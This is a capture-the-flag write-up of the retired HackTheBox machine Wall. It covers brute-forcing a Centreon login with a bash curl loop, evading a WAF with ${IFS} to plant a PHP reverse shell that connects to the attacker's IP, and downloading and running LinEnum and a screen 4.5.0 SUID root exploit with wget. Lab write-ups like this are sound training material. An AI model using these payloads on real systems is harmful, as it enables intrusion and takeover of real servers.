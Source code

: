 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!

Wall was a fairly easy machine, although it was a little frustrating.

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.

Root access involved a vulnerable SUID binary.

## In the beginning..
As usual, I run nMap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

  English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring softwares on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a super simple script to bruteforce login API using rockyou:

```
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The password is found to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 

I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.

Instead of space, I used ${IFS} to escape the space char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange]https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener

I used those to craft a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.

Payload:
```
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'

```
I then navigated to the page that the mhaskar script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```
$ nc -lvp 1337
```
I got a shell!

## www-data

Now I have a restricted shell - I need to perfrom some privilege escalation.

I used LinEnum by running the following on my machine in the directory that LinEnum was in.

```
$ python -m SimpleHTTPServer 8000
```

And running the following on the target machine:

```
& wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

LinEnum shows me a vulnerable SUID:

```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!

With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

## Thanks for reading :)

I've prepared writeups for Postman, Traverxec and Obscurity. Check back when they're retired for the writeups.
